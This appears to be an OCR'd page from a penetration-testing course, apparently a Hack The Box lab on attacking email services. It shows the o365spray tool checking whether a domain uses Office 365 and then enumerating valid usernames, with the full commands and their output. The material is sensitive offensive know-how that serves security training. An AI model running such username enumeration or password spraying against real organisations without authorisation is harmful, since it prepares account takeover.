 ***

### Cloud Enumeration

As discussed, cloud service providers use their own implementation for email services. Those services commonly have custom features that we can abuse for operation, such as username enumeration. Let's use Office 365 as an example and explore how we can enumerate usernames in this cloud platform.

[O365spray](https://github.com/0xZDH/o365spray) is a username enumeration and password spraying tool aimed at Microsoft Office 365 (O365) developed by [ZDH](https://twitter.com/0xzdh). This tool reimplements a collection of enumeration and spray techniques researched and identified by those mentioned in [Acknowledgments](https://github.com/0xZDH/o365spray#Acknowledgments). Let's first validate if our target domain is using Office 365.

**O365 Spray**

Attacking Email Services

```shell-session
AIceBear@htb[/htb]$ python3 o365spray.py --validate --domain msplaintext.xyz

            *** O365 Spray ***            

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > validate       :  True
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:46:40

>----------------------------------------<

[2022-04-13 09:46:40,344] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:46:40,743] INFO : [VALID] The following domain is using O365: msplaintext.xyz
```

Now, we can attempt to identify usernames.

Attacking Email Services

```shell-session
AIceBear@htb[/htb]$ python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz        
                                       
            *** O365 Spray ***             

>----------------------------------------<

   > version        :  2.0.4
   > domain         :  msplaintext.xyz
   > enum           :  True
   > userfile       :  users.txt
   > enum_module    :  office
   > rate           :  10 threads
   > timeout        :  25 seconds
   > start          :  2022-04-13 09:48:03

>----------------------------------------<

[2022-04-13 09:48:03,621] INFO : Running O365 validation for: msplaintext.xyz
[2022-04-13 09:48:04,062] INFO : [VALID] The following domain is using O365: msplaintext.xyz
[2022-04-13 09:48:04,064] INFO : Running user enumeration against 67 potential users
[2022-04-13 09:48:08,244] INFO : [VALID] lewen@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : [VALID] juurena@msplaintext.xyz
[2022-04-13 09:48:10,415] INFO : 

[ * ] Valid accounts can be found at: '/opt/o365spray/enum/enum_valid_accounts.2204130948.txt'
```
